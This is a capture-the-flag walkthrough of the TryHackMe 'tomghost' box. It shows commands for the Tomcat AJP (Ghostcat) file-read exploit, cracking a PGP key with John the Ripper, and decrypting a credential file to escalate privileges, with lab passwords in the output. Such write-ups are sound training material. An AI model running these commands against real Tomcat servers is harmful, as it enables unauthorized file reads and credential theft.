 # [tomghost writeup](https://www.tryhackme.com/room/tomghost)

### Searchsploit
`searchsploit ajp`
`python 48143.py -f /WEB-INF/web.xml $ip` or with specific port `python 48143.py -p $port -f /WEB-INF/web.xml $ip`

In this box, it uses the default port 8009 already.

### Or AJPy
##### Install submodules first
`git clone --recurse-submodules git@github.com:hypn0s/AJPy.git`
##### Now run it
`python tomcat.py read_file --webapp=web /WEB-INF/web.xml $ip`

### Cracking PGP symmetrically encrypted files with JtR 
https://www.openwall.com/lists/john-users/2015/11/17/1

```
❯ john hash --wordlist=/opt/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thisIsThePhaseForTheOtherFile        (tryhackme)
1g 0:00:00:00 DONE (2021-05-30 21:30) 25.00g/s 26800p/s 26800c/s 26800C/s theresa..thisIsThePhaseForTheOtherFile
Use the "--show" option to display all of the cracked passwords reliably
Session completed
❯ john hash --show
tryhackme:thisIsThePhaseForTheOtherFile:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc

1 password hash cracked, 0 left
```

### Use the phase to finish the horizontal privilege escalation
```
skyfuck@ubuntu:~$ gpg --import tryhackme.asc
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:plainTextPassword
```


### Thoughts
Run the exploit is not hard but how to find the correct command parameters for that
```
root@ubuntu:/root# find / -name "web.xml" 2>/dev/null
/opt/tomcat/conf/web.xml
/opt/tomcat/webapps/host-manager/WEB-INF/web.xml
/opt/tomcat/webapps/ROOT/WEB-INF/web.xml
/opt/tomcat/webapps/manager/WEB-INF/web.xml
/opt/tomcat/webapps/docs/appdev/sample/web/WEB-INF/web.xml
/opt/tomcat/webapps/docs/WEB-INF/web.xml
/opt/tomcat/webapps/examples/WEB-INF/web.xml
```

Available parameters
```
--webapp=host-manager
--webapp=ROOT
--webapp=manager
--webapp=web
--webapp=docs
--webapp=examples
```
